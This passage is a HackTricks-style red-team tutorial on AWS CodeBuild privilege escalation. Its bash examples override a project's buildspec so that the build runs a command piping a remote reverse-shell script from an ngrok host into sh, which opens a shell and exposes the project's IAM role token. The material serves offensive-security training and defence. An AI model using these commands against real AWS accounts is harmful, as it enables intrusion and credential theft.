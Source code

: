 # AWS - Codebuild Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details><summary>Support HackTricks</summary></details>
{% endhint %}

## codebuild

Get more info in:

{% content-ref url="../aws-services/aws-codebuild-enum.md" %}
[aws-codebuild-enum.md](../aws-services/aws-codebuild-enum.md)
{% endcontent-ref %}

### `codebuild:StartBuild` | `codebuild:StartBuildBatch`

Only with one of these permissions it's enough to trigger a build with a new buildspec and steal the token of the iam role assigned to the project:

{% tabs %}
{% tab title="StartBuild" %}
{% code overflow="wrap" %}
```bash
cat > /tmp/buildspec.yml <<EOF
version: 0.2

phases:
  build:
      commands:
            - curl https://reverse-shell.sh/6.tcp.eu.ngrok.io:18499 | sh
EOF

aws codebuild start-build --project <project-name> --buildspec-override file:///tmp/buildspec.yml
```
{% endcode %}
{% endtab %}

{% tab title="StartBuildBatch" %}
{% code overflow="wrap" %}
```bash
cat > /tmp/buildspec.yml <<EOF
version: 0.2

batch:
  fast-fail: false
  build-list:
    - identifier: build1
      env:
        variables:
          BUILD_ID: build1
      buildspec: |
        version: 0.2
        env:
          shell: sh
        phases:
          build:
            commands:
              - curl https://reverse-shell.sh/6.tcp.eu.ngrok.io:18499 | sh
      ignore-failure: true
EOF

```